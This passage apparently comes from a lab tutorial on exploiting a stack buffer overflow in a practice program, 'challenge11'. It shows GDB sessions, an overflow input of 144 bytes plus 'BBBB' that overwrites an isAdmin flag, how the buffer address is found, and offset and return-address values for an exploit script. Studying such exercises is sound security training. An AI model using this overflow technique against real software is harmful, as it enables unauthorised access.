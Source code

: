 ```sh
   0x08049270 <+95>:    jmp    0x8049282 <handleData+113>
   0x08049272 <+97>:    sub    esp,0xc
   0x08049275 <+100>:   push   0x804a0ac
   0x0804927a <+105>:   call   0x8049060 <puts@plt>
   0x0804927f <+110>:   add    esp,0x10
   0x08049282 <+113>:   nop
   0x08049283 <+114>:   leave
   0x08049284 <+115>:   ret
End of assembler dump.
```

Set Breakpoint in GDB. We can break anywhere in the function, lets say at the `ret` instruction
at `0x08049284` or `handleData+115`:
```sh
(gdb) b *handleData+115
Breakpoint 1 at 0x8049284: file challenge11.c, line 33.
```

Run it as before:

```sh
(gdb) r `perl -e 'print "A" x 144 . "BBBB"'` password
Starting program: /root/challenges/challenge11/challenge11 `perl -e 'print "A" x 144 . "BBBB"'` password
isAdmin: 0x41414141
You are admin!
Breakpoint 1, 0x08049284 in handleData (username=0xffffde00 "LC\253,h1T\345\356.pi686", password=0xffffded7 "password") at challenge11.c:33
33      }

(gdb) print &name
$1 = (char (*)[128]) 0xffffdb9c
```

So `print &name` shows us the address of the `char name[128]` local variable in the function `handleData()`,
which is `0xffffdb9c` in memory / RAM. 

Lets verify this by printing a string at that location:
```
(gdb) x/1s 0xffffdb9c
0xffffdb9c:     'A' <repeats 144 times>, "BBBB"
```

Note that there is a high probability that you get a slightly different address (unlike the offset, which is pretty stable). 


## Exploit writing

We can insert our values into our prepared exploit `challenge11-exploit.py`:
```
offset = 144
ret_addr = "\x9c\xdb\xff\xff"
```
